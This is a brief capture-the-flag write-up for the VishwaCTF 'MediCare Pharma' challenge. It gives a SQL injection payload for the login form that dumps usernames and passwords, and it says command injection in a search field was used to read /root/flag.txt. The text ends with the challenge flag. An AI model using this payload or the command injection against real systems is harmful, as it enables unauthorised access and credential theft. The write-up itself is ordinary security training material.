 # MediCare Pharma

On sending the request to the page with the query
`username=test'+OR+username+like+'%'+--+-&password=test`

We get the following results back

Username : medicare ,Password : 5trongp455!
Username : janice ,Password : 5trongp455@
Username : rootuser ,Password : 5trongp455%
Username : pharmaowner ,Password : 5trongp455$

We logged in as rootuser and found out that we can run commands in the search field.

We then found the flag in /root/flag.txt

>FLAG: VishwaCTF{d1g1t4l_p41n_di5p4tch3d_th4nk5_f0r_sh0pp1ng_with_M3diC4re_Ph4rm4}